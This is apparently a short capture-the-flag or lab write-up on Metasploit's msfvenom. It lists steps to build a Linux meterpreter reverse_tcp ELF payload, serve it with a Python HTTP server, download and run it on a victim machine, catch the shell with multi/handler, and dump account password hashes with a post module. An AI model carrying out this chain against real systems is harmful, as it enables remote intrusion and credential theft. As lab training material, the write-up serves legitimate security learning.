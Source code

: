# Metasploit: Msfvenom
1. as the name suggests we have to use msfvenom here 
2. there is too much information given in the questions 
3. so we have to ssh in the machine and get the root privs to execute the payload that we make using msfvenom on our local machine
4. we have to make the payload for a linux machine so we will be giving the format as elf
5. we know LHOST , LPORT , FORMAT . payload still left 
6. we will be using /linux/x86/meterpreter/reverse_tcp here
7. after creating the payload we have to move the payload to the victim machine will be doing this via http.server python utility
8. python3 -m http.server 9000
9. downloaded the payload via wget <link of the file on the self hosted server >
10. the downloaded payload is not a executable so we have to make it a executable first using chmod +x rishabh.elf
11. now start the exploit/multi/handler in the metasploit and configure it with 	LHOST, LPORT, PAYLOAD.
12. NOTE:  the LPORT must be the same here that we had set while making tha payload in msfvenom ie 9999
13. now just execute the file on the target machine and here we get a meterpreter shell. 
14. just background the session and search for the post/linux/gather/hashdump and initialize it with the session id and BOOM 
15. here are the hashes of all the accounts on the machine 
16. TASK COMPLETED